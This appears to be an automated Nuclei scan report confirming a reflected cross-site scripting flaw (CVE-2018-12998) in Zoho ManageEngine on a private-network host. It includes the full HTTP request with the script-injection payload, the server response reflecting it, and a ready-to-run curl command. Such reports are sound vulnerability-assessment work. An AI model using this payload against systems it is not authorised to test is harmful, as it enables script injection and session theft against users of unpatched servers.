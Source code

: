 ### Zoho manageengine Arbitrary Reflected XSS (CVE-2018-12998) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2018-12998**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/servlet/com.adventnet.me.opmanager.servlet.FailOverHelperServlet?operation=11111111%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:10 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Zoho manageengine Arbitrary Reflected XSS |
| Authors | pikpikcu |
| Tags | cve, cve2018, zoho, xss, manageengine |
| Severity | medium |
| Description | A reflected Cross-site scripting (XSS) vulnerability in Zoho ManageEngine Netflow Analyzer before build 123137, Network Configuration Manager before build 123128, OpManager before build 123148, OpUtils before build 123161, and Firewall Analyzer before build 123147 allows remote attackers to inject arbitrary web script or HTML via the parameter 'operation' to /servlet/com.adventnet.me.opmanager.servlet.FailOverHelperServlet. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2018-12998](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-12998) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /servlet/com.adventnet.me.opmanager.servlet.FailOverHelperServlet?operation=11111111%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 273
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/servlet/com.adventnet.me.opmanager.servlet.FailOverHelperServlet?operation=11111111</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://github.com/unh3x/just4cve/issues/10
- http://packetstormsecurity.com/files/148635/zoho-manageengine-13-13790-build-xss-file-read-file-deletion.html
- https://nvd.nist.gov/vuln/detail/cve-2018-12998

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36' 'http://192.168.198.179:8080/servlet/com.adventnet.me.opmanager.servlet.FailOverHelperServlet?operation=11111111%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)